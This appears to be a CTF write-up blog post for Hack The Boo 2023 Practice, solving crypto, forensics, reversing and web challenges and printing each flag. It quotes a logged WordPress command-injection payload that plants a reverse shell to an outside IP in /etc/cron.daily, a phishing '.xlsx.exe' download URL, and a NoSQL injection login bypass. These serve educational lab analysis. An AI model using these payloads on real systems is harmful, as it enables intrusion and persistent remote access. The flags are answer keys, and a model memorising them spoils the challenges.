 ```yaml
---
author: pl4int3xt
layout: post
title: Hack The Boo - 2023 Practice
date: '2023-10-26 10:02:19 +0300'
description: "Hack The Boo 2023 Practice CTF"
cover: 1.jpg
useRelativeCover: true
categories: [Capture the flag]
---
```

## Crypto
### Hexoding
```python
def main():
    first_half = FLAG[:len(FLAG)//2]
    second_half = FLAG[len(FLAG)//2:]

    hex_encoded = to_hex(first_half)
    base64_encoded = to_base64(second_half)

    with open('output.txt', 'w') as f:
        f.write(f'{hex_encoded}\n{base64_encoded}')
```
The first half is hex encoded while the other half is base64 encoded. After decoding the output we get the flag
```bash
HTB{kn0w1ng_h0w_t0_1d3nt1fy_3nc0d1ng_sch3m3s_1s_cruc14l_f0r_a_crypt0gr4ph3r___4ls0_d0_n0t_c0nfus3_enc0d1ng_w1th_encryp510n!}
```
## Forensics
### Vulnerable season
We grep for 200 ok logs then we find this log
```bash
82.179.92.206 - - [28/Sep/2023:05:21:22 -0400] "GET /wordpress/wp-admin/admin-ajax.php?action=upg_datatable&field=field:exec:echo%20%22sh%20-i%20%3E&%20/dev/tcp/82.179.92.206/7331%200%3E&1%22%20%3E%20/etc/cron.daily/testconnect%20&&%20Nz=Eg1n;az=5bDRuQ;Mz=fXIzTm;Kz=F9nMEx;Oz=7QlRI;Tz=4xZ0Vi;Vz=XzRfdDV;echo%20$Mz$Tz$Vz$az$Kz$Oz|base64%20-d|rev:NULL:NULL HTTP/1.1" 200 512 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
```
We build the base64 string from the echo pattern and we decode it
```bash
echo fXIzTm4xZ0ViXzRfdDV5bDRuQF9nMEx7QlRI | base64 -d
}r3Nn1gEb_4_t5yl4n@_g0L{BTH
```
The flag is written from backwards so we reverse it and get this
```
HTB{L0g_@n4ly5t_4_bEg1nN3r}
```
### Spooky Phishing
After opening the index.html file the file tries to download a file from the url with the flag
```
https://windowsliveupdater.htb/HTB{sp00ky_ph1sh1ng_w1th_sp00ky_spr34dsh33ts}/app.xlsx.exe
```
## Reversing
### CandyBowl
We runs strings for the candy bowl binary and boom we get the flag 
```
HTB{4lw4y5_ch3ck_ur_k1d5_c4ndy}
```
## Web 
### CandyVault
The website is using mongodb so we try nosql injection with the following payload
```json
{"email": {"$ne": null}, "password": {"$ne": null} }
```
Then we have to change the content type before sending the request
```
Content-Type: application/json
```
Then we get the page with the flag
```
HTB{w3lc0m3_to0o0o_th3_c44andy_v4u1t!}
```